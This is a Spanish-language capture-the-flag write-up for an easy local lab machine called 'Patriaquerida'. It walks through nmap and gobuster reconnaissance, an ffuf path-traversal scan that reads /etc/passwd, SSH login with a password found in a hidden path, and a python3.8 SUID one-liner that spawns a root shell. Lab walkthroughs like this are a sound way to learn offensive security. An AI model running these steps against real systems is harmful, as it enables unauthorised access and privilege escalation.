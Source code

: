 ```yaml
---
description: '✍️ Autor: JuanR🔍 Dificultad: Fácil 📅 Fecha de creación: 12/01/2025'
---
```


# Patriaquerida

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/imagen (1).png" alt=""><figcaption></figcaption></figure>

En el puerto 80 corre la página por defecto de Apache por lo que realizamos un escaneo de directorios.

<figure><img src="../../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

Observamos que se encuentra un archivo llamado **index.php**, así que procederemos a explorar el contenido de esa ruta.

<figure><img src="../../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>

Nos indican directamente dónde buscar, así que accedemos a la ruta: **172.17.0.2/.hidden\_pass**.

<figure><img src="../../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

Encontramos lo que parece ser una contraseña: **balu**.

### 🚀 **EXPLOTACIÓN**

Dado que existen rutas visibles, utilizaremos **FFUZ** para explorar más a fondo. Tal como se muestra en la imagen, el servidor es vulnerable a **Path Traversal**, lo que nos permite acceder al archivo **/etc/passwd**.

```bash
ffuf -u "http://172.17.0.2/index.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt -fw 12
```

<figure><img src="../../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (7).png" alt=""><figcaption></figcaption></figure>

Con la contraseña **balu** nos podemos loguear con el usuario **pinguino**.

```bash
ssh pinguino@172.17.0.2
```

<figure><img src="../../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Indagando encontramos la contraseña del usuario **mario** por lo que pivotamos a él.

<figure><img src="../../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

Al buscar permisos **SUID** encontramos que tenemos con **python3.8**.

```
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/python/#suid" %}

```bash
/usr/bin/python3.8 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

<figure><img src="../../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>
